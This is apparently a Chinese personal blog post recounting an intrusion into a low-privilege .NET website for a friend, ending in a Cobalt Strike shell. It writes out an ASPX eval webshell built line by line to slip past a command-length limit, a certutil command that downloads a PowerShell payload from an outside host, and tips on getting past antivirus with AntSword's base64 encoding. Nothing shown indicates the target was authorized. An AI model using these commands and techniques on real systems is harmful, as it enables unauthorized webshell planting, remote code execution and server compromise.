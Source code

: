 
今天朋友拿着一个小马问我，怎么弹 msf。其实 msf 我不熟，我还是喜欢 CS。下面记录一下 CS 上线的过程：


.NET的网站，权限低：

![title](https://leanote.com/api/file/getImage?fileId=5ebd2d15ab64414b4b05ab03)

一些基本信息：

![title](https://leanote.com/api/file/getImage?fileId=5ebd35feab64414b4b05bb92)

![title](https://leanote.com/api/file/getImage?fileId=5ebd2d7aab6441494905ac8f)

![title](https://leanote.com/api/file/getImage?fileId=5ebd2d99ab64414b4b05abef)



试了下机器出网没问题，于是想直接反弹 shell，但是命令被截断了，倒没有过滤什么特殊字符，但是输入的命令有长度限制：


![title](https://leanote.com/api/file/getImage?fileId=5ebd2e33ab64414b4b05ace8)

不过好在是 2008 R2 的机器，没有 defender 拦我。趋势基本不拦截 webshell，也不拦截 powershell。所以随便想随便写个 aspx 的一句话木马进去就行了。

通过追加文件的方式一点点写入一句话木马，每次在特殊字符处截断：
```
dir  D:\SRM\WEB\config\

type D:\SRM\WEB\config\1.txt


ehco. > D:\SRM\WEB\config\2.aspx
>> D:\SRM\WEB\config\2.aspx set /p="<%@ P" 
>> D:\SRM\WEB\config\2.aspx set /p="age L"
>> D:\SRM\WEB\config\2.aspx set /p="anguage="
>> D:\SRM\WEB\config\2.aspx set /p="""
>> D:\SRM\WEB\config\2.aspx set /p="Jscript"
>> D:\SRM\WEB\config\2.aspx set /p="""
>> D:\SRM\WEB\config\2.aspx set /p="%><%"
>> D:\SRM\WEB\config\2.aspx set /p="eval(Request"
>> D:\SRM\WEB\config\2.aspx set /p=".Item["
>> D:\SRM\WEB\config\2.aspx set /p="""
>> D:\SRM\WEB\config\2.aspx set /p="pass"
>> D:\SRM\WEB\config\2.aspx set /p="""
>> D:\SRM\WEB\config\2.aspx set /p="],"
>> D:\SRM\WEB\config\2.aspx set /p="""
>> D:\SRM\WEB\config\2.aspx set /p="unsafe"
>> D:\SRM\WEB\config\2.aspx set /p="""
>> D:\SRM\WEB\config\2.aspx set /p=");%>"
```

然后就写好了：

![title](https://leanote.com/api/file/getImage?fileId=5ebd2f2fab6441494905af67)


菜刀连失败：

![title](https://leanote.com/api/file/getImage?fileId=5ebd2f59ab64414b4b05aea1)


于是想传个 CS 的 Powershell Command payload 文件上去。为了 bypass 命令执行的长度限制：

```
1. 创建一个文件 1.bat
2. 1.bat 的内容为
certutil -urlcache -split -f http://xxxxx:8000/2.bat
2.bat 就是 Powershell Command payload
```

但是失败了！

![title](https://leanote.com/api/file/getImage?fileId=5ebd2ff0ab6441494905b0ab)


emmmm，陷入僵局。但是回头看我传上去的一句话木马。解析正常可通过 web 访问。

尝试通过 AntSword 去连，当然连接测试也是失败的。不过呢，仅仅是设置了连接编码方式为 base64，就连接成功了！甚至没有改 UA 和发包。

于是我获得了虚拟终端，在虚拟终端里面，可没有长度限制。又有powershell.exe 进程，又没什么（defender）防护，直接在命令行执行 Powershell command payload：

![title](https://leanote.com/api/file/getImage?fileId=5ebd30c0ab6441494905b213)


然后在下就喜提 CS shell 了。剩下的提权和之后的事情就交还给我朋友了。


